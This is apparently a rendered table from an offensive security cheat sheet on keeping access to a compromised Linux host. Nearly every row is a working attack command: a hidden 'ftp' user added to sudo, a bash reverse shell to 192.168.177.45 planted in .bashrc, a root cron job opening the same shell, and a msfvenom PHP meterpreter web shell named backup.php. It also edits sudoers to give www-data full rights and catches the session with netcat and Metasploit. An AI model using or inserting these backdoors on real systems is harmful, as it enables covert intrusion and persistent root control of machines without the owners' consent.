 
<tr>
<th>ssh configuration</th>
<td>modify ssh configuration<br /></td>
<td>$ nano /etc/ssh/sshd_config (RSAAuthentication should be yes to login without password)<br /></td>
</tr>

<tr>
<th>adding a sneaky user</th>
<td>Adding a sneaky user in remote<br /></td>

<td>$ sudo su<br />
$ cd .. (go to home folder)<br />
$ ls<br />
$ useradd -m -s /bin/bash ftp<br />
$ usermod -aG sudo ftp<br />
$ passwd ftp<br />
$ ssh ftp@ip<br /></td>
</tr>

<tr>
<th>bashrc profile</th>
<td>modify ssh configuration<br /></td>
<td>$ ssh ftp@ip<br />
$ cd .. (go to home folder)<br />
$ nano user/.bashrc<br />
$ sh -i >& /dev/tcp/192.168.177.45/9000 0>&1 (put in a sneaky command)<br />
$ nc -lvp 9000 (from local system and anytime a user logs into remote we get an ip)<br />
</td>
</tr>

<tr>
<th>cron tab in remote machine</th>
<td>getting a cron tab in remote machine to get a backdoor<br /></td>
<td>
$ sudo su (in remote)<br />
$ crontab -e (type '2' for nano)<br />
$ ***** /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.177.45/9000 0>&1 (add this cronjob)<br />
$ nc -nlvp 9000 (in local use netcat and we get a connection as root #)<br />
</td>
</tr>

<tr>
<th>use metasploit to get persistence in a system</th>
<td>webshell using msfvenom<br /></td>
<td>$ msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.177.45 LPORT=9001 -e php/base64 -f raw shell.php (create a web shell)<br />
$ ls <br />
$ nano shell.php <br />
$ create php code and $ cat shell.php (copy the code)<br />
$ sudo su (in remote) <br />
$ cd /var/www/html/ <br />
$ ls <br />
$ nano backup.php (paste the code)<br />
$ nano /etc/sudoers (in USER PRIVILEDGES add 'www-data ALL=(ALL:ALL) ALL for web server) <br />
$ passwd www-data (www-data user got access)<br />
$ msfconsole (in local) <br />
> use  multi/handler <br />
> set payload php/meterpreter/reverse_tcp <br />
> set lhost 192.168.177.45 <br />
> set lport 9001 <br />
> run <br />
$ curl 192.168.177.48/backup.php (from local shell)<br />
We get a meterpreter shell to remote host:<br />
> whoami <br />